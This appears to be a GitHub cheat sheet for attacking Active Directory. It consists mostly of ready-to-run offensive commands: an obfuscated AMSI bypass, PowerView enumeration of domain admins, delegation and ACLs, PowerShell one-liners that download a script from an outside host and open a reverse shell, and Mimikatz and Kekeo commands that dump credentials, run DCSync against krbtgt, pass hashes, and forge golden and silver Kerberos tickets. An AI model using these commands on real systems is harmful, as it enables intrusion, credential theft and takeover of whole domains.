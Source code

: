 # Active-directory-small-cheatsheet
Small easy to find cheat sheet for Active directory exploitation

**Amsi bypass:-**

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )


**Powershell Execution policy Bypass:-**

`powershell -ep bypass`


**Tips**

To input the output of the first command into second command use this powershell technique


`<First command> | %{<Second command> -<argument> $_}`

%{} is an alias for ForEach-Object{}

?{} is an alias for Where-Object{}

$_ is variable


To filter out an object type we can use this technique with pipe.

`?{$_.<object> -eq '<value>’'}`


##Enumeration:-

**To find local admin access:-**

Find-LocalAdminAccess


**To get Domain sid:-**

Get-DomainSID 

Arguments -Domain “domain name”


**To get DC:-**

Get-NetDomainController

Arguments -Domain “domain name”



**To get users in current domain:-**

Get-NetUser

Arguments  -UserName “username”




**To get user properties:-**

Get-UserProperty

Arguments -Properties pwdlastset



**Search for a particular string in a user's attributes:-**

Find-UserField -SearchField Description -SearchTerm ”built”


**To Get all computers:-**

Get-NetComputer -FullData

Many arguments -OperatingSystem -Ping -FullData


**To get groups:-**

Get-NetGroup

Arguments -FullData -Domain


**To get members of a particular group:-**

Get-NetGroupMember -GroupName "Domain Admins"


**To Group Policies**

Get-NetGPO
Get-NetGPO -ComputerName <Name of the PC>
Get-NetGPOGroup

**To Get users that are part of a Machine's local Admin group**
Find-GPOComputerAdmin -ComputerName <ComputerName>



**To get OUs:**

Get-NetOU -FullData 
Get-NetGPO -GPOname <The GUID of the GPO>



**Mapping forest:-**

Get-NetForest -Verbose

Get-NetForestDomain -Verbose



**Mapping trust:-**

Get-NetDomainTrust
 
Arguments -Domain

Get-NetForestDomain -Verbose | Get-NetDomainTrust




**Finding Constrained Delegation:-**

Get-DomainUser -TrustedToAuth (Poweview Dev.)


**Finding UnConstrained Delegation:-**

Get-NetComputer -UnConstrained



**To get ACLs**

Get-ObjectAcl -SamAccountName <AccountName> -ResolveGUIDs
Get-ObjectAcl -ADSprefix 'CN=Administrator, CN=Users' -Verbose

**To Search for interesting ACEs**

Invoke-ACLScanner -ResolveGUIDs




##Command Execution techniques for reverse shells.

`powershell.exe -c iex ((New-Object Net.WebClient).DownloadString('http://172.16.100.113/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.X -Port 443`

`powershell.exe iex (iwr http://172.16.100.113/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 172.16.100.113 -Port 443`



##Mimikatz

**Make ntlm ps-session:-**

Invoke-Mimikatz -Command '"sekurlsa::pth /user:<username> /domain:<Domain name> /ntlm:<ntlm hash for user> /run:powershell.exe"'



**Dump creds:-**

`Invoke-Mimikatz

Invoke-Mimikatz -Command ‘“lsadump::lsa /patch”’

Invoke-Mimikatz -Command '"lsadump::dcsync /user:<user>\krbtgt"'

(dcsync requires 3 permission )`


#Tickets

**Inject ticket:-**

`Invoke-Mimikatz -Command '"kerberos::ptt <location of .kirbi tkt>"'`

**Export Tickets:-**

`Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'`

**Golden tkt**

`Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<DomainName> /sid:<Domain's SID> /krbtgt:<krbtgt hash>   id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'`

**Silver tkt**

`Invoke-Mimikatz -Command '"kerberos::golden /domain:<DomainName> /sid:<DomainSID> /target:<target> /service:<ServiceType> /rc4:<rc4 NTLM Hash of user> /user:<UserToImpersonate> /ptt"'`

**TGT tkt**

kekeo.exe 
`tgt::ask /user:<user name> /domain:<domain name> /rc4:<rc4 NTLM Hash of user>`

Here the rc4 hash is for the user who is allowed to delegate.

**TGS tkt**

Kekeo.exe

`tgs::s4u /tgt:tgt_ticket.kirbi /user:<user>@<domain> /service:<service name>/<server name>`








